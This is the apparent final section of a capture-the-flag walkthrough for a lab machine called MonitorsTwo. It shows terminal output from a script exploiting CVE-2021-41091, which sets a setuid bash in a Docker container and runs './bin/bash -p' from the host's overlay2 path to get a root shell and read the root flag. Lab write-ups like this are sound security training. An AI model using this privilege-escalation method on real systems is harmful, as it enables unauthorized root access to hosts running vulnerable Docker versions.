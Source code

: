 Awesome it worked. Now we can hop back over to our ssh session as Marcus and run that exploit script.

```bash
marcus@monitorstwo:~$ ./root-exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# cd /root
bash-5.1# ls -alh
total 36K
drwx------  6 root root 4.0K Mar 22 13:21 .
drwxr-xr-x 19 root root 4.0K Mar 22 13:21 ..
lrwxrwxrwx  1 root root    9 Jan 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwx------  2 root root 4.0K Mar 22 13:21 .cache
drwxr-xr-x  2 root root 4.0K Mar 22 13:21 cacti
drwxr-xr-x  3 root root 4.0K Mar 22 13:21 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Jul  7 03:17 root.txt
drwx------  2 root root 4.0K Mar 22 13:21 .ssh
bash-5.1# cat root.txt 
cb6fa8d..... #UR_TURN_NOW_:)
bash-5.1#
```

Awesome the exploit worked and we got our root flag. To give a bit of context on the above script; to get it work run the script, then __cd__ into the directory where the vulnerable /bin/bash binary is, then run __./bin/bash -p__ to switch over to a privleged shell.


Happy hacking!

- H0ax <3



